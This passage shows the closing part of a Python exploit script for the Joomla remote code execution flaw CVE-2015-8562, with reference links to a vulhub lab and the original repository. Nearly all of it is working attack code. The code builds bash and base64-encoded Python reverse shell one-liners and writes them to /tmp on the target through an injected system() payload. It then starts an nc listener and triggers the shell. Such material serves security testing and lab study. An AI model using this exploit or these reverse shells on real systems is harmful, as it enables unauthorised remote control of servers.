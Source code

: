             if args.bash == True :
                comm = "bash"
                shell_name = shell_name+".sh"
                # pentestmonkey's Bash reverse shell one-liner:
                str_shell = 'bash -i >& /dev/tcp/{}/{} 0>&1'.format(args.LHOST, args.LPORT)
                payload = '''echo "'''+str_shell+'''" > /tmp/'''+shell_name+''''''
            else :
                comm = "python"
                shell_name = shell_name+".py"
                # pentestmonkey's Python reverse shell one-liner:
                str_shell = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('''+connection+'''));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'''
                # Base64 encoded the Python reverse shell as some chars were messing up in the exploit
                encoded_comm = base64.b64encode(str_shell)
                payload = "echo {} | base64 -d > /tmp/{}".format(encoded_comm, shell_name)
            
            print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
            print "\033[1;32;10m[+] Spawning listener on {}:{}".format(args.LHOST, args.LPORT)        
            listener = subprocess.Popen(args=["gnome-terminal", "--command=nc -lvp "+args.LPORT])
            time.sleep(5)
            print "\033[1;37;10m[-] Uploading reverse shell to /tmp/{}".format(shell_name)
            pl = generate_payload("system('"+payload+"');")
            print get_url(args.RHOST, pl, args.method, proxyDict)
            time.sleep(2)
            print "\033[1;32;10m[+] Spawning reverse shell..."
            print "\033[1;33;10m[-] Check if the listener caught the shell\033[1;37;10m"
            pl = generate_payload("system('{} /tmp/{}');".format(comm, shell_name))
            print get_url(args.RHOST, pl, args.method, proxyDict)
        else:
            print '\033[1;31;10m\n[!] Missing Arguments\n\033[1;37;10m'
            parser.print_help()

    if __name__ == "__main__":
        try:
            # Suppress SSL Warning due to unverified HTTPS requests.
            # See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
            urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
            main()
        except KeyboardInterrupt:
            print "\033[1;31;10mQuitting..."
            sys.exit(0)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2015-8562
>
> https://github.com/VoidSec/Joomla\_CVE-2015-8562
